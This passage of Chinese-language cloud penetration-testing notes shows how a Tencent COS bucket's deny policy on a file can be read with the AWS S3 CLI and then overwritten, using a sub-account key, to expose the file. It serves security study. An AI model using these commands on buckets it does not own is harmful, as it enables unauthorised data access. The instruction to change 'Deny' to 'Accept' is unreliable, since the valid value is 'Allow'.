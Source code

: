 
(这个比较鸡肋，利用前提是需要存储桶所有者账户的身份才行，不过尝试发现使用存储桶子账号的 AK 也可以读取。)

#### 修改策略获得敏感文件

获取bucket的策略：

```bash
aws s3api get-bucket-policy --bucket testbucket1-1305357004 --endpoint-url http://cos.ap-beijing.myqcloud.com --output text|python -m json.tool

#需要改成--output text是因为json得到的不是原本的policy
```

得到：

```json
{
    "Statement": [
        {
            "Action": [
                "name/cos:HeadBucket",
                "name/cos:GetObject",
                "name/cos:HeadObject",
                "name/cos:OptionsObject"
            ],
            "Effect": "Deny",
            "Principal": {
                "qcs": [
                    "qcs::cam::anyone:anyone"
                ]
            },
            "Resource": [
                "qcs::cos:ap-beijing:uid/1305357004:testbucket1-1305357004/1.txt"
            ],
            "Sid": "policy1"
        }
    ],
    "version": "2.0"
}
```

禁止了所有人读取1.txt，但是没禁止对Bucket的策略进行读写，将Deny改成Accept。



```bash
aws s3api put-bucket-policy --bucket testbucket1-1305357004 --endpoint-url http://cos.ap-beijing.myqcloud.com  --policy file://policy.json
```

即可变成允许：

![image-20231016202950968](AWS.assets/image-20231016202950968.png)
